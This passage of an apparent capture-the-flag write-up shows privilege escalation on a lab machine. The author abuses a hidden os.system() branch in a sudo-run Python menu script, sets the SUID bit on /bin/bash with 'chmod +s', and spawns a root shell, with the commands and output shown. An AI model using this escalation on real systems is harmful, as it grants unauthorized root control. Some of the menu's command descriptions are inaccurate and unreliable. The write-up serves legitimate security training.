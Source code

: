 Run `ip route show` command, which shows all the routes

- Option4:

Run `cat /etc/os-release` command, which shows the kernel version

- Option5:

Run `shutdown now` command, which shutdown the machine, NOT spawning a root shell

- Option6:

Run `date` command, which shows the current date

- Option7:

Run `rm -r /tmp/*` command, which deletes everything in the machine

If you smart enough, you'll find that the **option 0 is kinda weird**...

```py
if select == 0: 
	time.sleep(1)
	ex = str(input("are you sure you want to quit ? yes : "))
	if ex == ".":
		print(os.system(input("\nRunning....")))
	if ex == "yes " or "y":
	sys.exit()    
```

If we run the **option 0**, it'll prompt me to input: "Want to quit?". If I type `yes` or `y`, It'll exit normally.

BUT, **the first nested if statement** stood out:

**If I type `.`, it'll NOT exit**, instead, I'll be prompt to **run any command** (`os.system()`).

So, what if I **run the option 0, type `.`, and add SUID sticky bit into `/bin/bash`?**

```
condor@mnemonic:~$ sudo /usr/bin/python3 /bin/examplecode.py 
[...]
Select:0
are you sure you want to quit ? yes : .

Running....chmod +s /bin/bash
0

condor@mnemonic:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
```

Boom!! the `/bin/bash` has SUID sticky bit!! Let's spawn a SUID privilege bash shell!

```
condor@mnemonic:~$ /bin/bash -p

bash-4.4# whoami;hostname;id;ip a
root
mnemonic
uid=1002(condor) gid=1002(condor) euid=0(root) egid=0(root) groups=0(root),1002(condor)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:dc:66:fa:04:11 brd ff:ff:ff:ff:ff:ff
    inet 10.10.173.174/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3079sec preferred_lft 3079sec
    inet6 fe80::dc:66ff:fefa:411/64 scope link 
       valid_lft forever preferred_lft forever
```
